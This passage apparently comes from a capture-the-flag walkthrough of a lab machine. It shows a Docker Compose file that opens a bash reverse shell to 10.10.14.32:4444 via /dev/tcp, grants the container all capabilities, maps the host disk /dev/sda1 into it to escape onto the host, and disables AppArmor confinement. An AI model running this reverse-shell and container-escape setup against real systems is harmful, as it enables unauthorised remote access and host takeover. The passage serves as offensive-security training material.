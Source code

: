 I referred to the documentation for Docker Compose file version 3 to create the YML file with all capabilities:

{% embed url="https://docs.docker.com/compose/compose-file/compose-file-v3/" %}

```yaml
version: '3'

services:
  api:
    image: cybermonday_api # existing image on the box
    command: bash -c "bash -i >/dev/tcp/10.10.14.32/4444 0>&1 2<&1"
    cap_add:
      - ALL # set up docker escape to mount back onto main host machine
    devices:
      - /dev/sda1:/dev/sda1
```

Using the above file would give us a reverse shell in the Docker container we create:

<figure><img src="../../.gitbook/assets/image (4209).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can `mount` back onto the main machine since we have all capabilities. However, this does not work for some reason:

```
root@40792ce8edd1:/mnt# mount /dev/sda1 /mnt/ 
mount: /mnt: cannot mount /dev/sda1 read-only.
       dmesg(1) may have more information after failed mount system call.
```

As it turns out, AppArmor may be running on the thing preventing us from reading it:

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/apparmor#apparmor-docker-bypass1" %}

We have to specify the `security_opt` parameter within our YML file:

```
version: '3'

services:
  api:
    image: cybermonday_api
    command: bash -c "bash -i >/dev/tcp/10.10.14.32/4444 0>&1 2<&1"
    cap_add:
      - ALL
    devices:
      - /dev/sda1:/dev/sda1
    security_opt:
      - "apparmor=unconfined"
```
